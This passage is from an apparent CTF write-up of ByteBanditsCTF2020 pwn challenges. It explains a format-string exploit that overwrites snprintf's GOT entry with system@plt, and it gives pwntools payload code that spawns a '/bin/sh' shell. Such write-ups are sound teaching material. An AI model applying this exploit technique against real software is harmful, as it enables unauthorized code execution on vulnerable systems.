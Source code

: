 > after that we can repeat calling `snprintf` to do more thing.

#### overwrite GOT of `snprintf`

> As `snprintf` would not print any char to `stdin`,  it was hard to leak the base address of libc. 
>
> But we can use `system` function in binary instead of libc.

Overwrite GOT of `snprintf` with the original address in GOT of `system` (`system@plt+6`) 

```c
 ► 0x401070       <snprintf@plt>     jmp    qword ptr [rip + 0x2fc2] <0x401056>
    ↓
   0x401056       <system@plt+6>     push   2
   0x40105b       <system@plt+11>    jmp    0x401020
```

>  `dl_resolver` will resolve real address of system in libc then call it. 

When we construct the second format string, make sure that the beginning of our input string was `/bin/sh;`:

```python
fmt2 = '/bin/sh;'
fmt2+= fmtstr_payload(7,{elf.got['snprintf']:0x401056-8},write_size='long')
sla('Choice: ','2')
sla('Good job. I\'ll give you a gift.',fmt2)
```

> The string stored in `other_buf` was `/bin/sh;......` and will not changed when `snprintf` were called at next time

#### getshell

`system('/bin/sh;')` executed after any chars sent:

```python
sla('Choice: ','2')
sla('Good job. I\'ll give you a gift.','TaQini win')
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/ByteBanditsCTF2020/pwn/fmt) 



## look-beyond
### Description

> Beyond the Aquila Rift, or is it in between?
> 
> nc pwn.byteband.it 8000
> 
> Update
> 
> Remote kernel is
> 
> Linux 4.15.0-1057-aws #59-Ubuntu SMP Wed Dec 4 10:02:00 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
